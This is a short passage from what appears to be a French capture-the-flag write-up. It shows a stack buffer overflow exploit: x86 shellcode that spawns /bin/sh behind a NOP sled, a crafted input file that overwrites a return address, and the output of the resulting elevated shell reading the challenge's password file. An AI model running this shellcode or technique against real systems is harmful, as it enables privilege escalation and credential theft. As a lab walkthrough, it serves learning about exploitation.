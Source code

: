 	$ export shbuf=$(perl -e 'print "\x90"x103 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
	$ perl -e 'print "USERNAME=" . "'$shbuf'" . "'$uid'" . "'$pid'" . "'$fileptr'" . "B"x28 . "\x47\xfd\xff\xbf"x2' > "$binpath"  && ./prog"$binpath"
	sh-4.2$
	sh-4.2$ id
	uid=1110(user) gid=1110(user) euid=1210(user-cracked) groups=1210(user-cracked),100(users),1110(user)
	sh-4.2$ cat .passwd
	Tirelipimponsurlechiwawa!

Et youpi les knackis, on peut valider ce challenge!
